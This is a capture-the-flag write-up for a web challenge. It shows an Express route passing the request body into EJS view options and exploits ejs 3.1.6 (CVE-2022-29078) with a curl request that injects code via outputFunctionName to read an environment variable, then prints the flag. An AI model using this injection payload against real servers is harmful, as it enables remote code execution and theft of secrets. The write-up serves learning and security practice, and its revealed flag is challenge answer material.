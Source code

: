 > This old service lets you make some interesting queries. It hasn't been updated in a while, though.

---

```js
res.render('search', {
	summary,
	notFound: false,
	...req.body
})
```

The server dumped all of our form body into express view options, ~~that's great~~ that's not good, …and `ejs@3.1.6` has a 9.8/10 RCE.
Find more info here [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami Eslam Salem](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

With the information we have we can create our payload easily.

```sh
curl --request POST \
  --url http://challs.bcactf.com:30684/ \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data breed=pekin \
  --data 'settings[view options][outputFunctionName]=x;__output+=Deno.env.get("FLAG");s'
```

And boom, our flag is here.

```
bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}
```
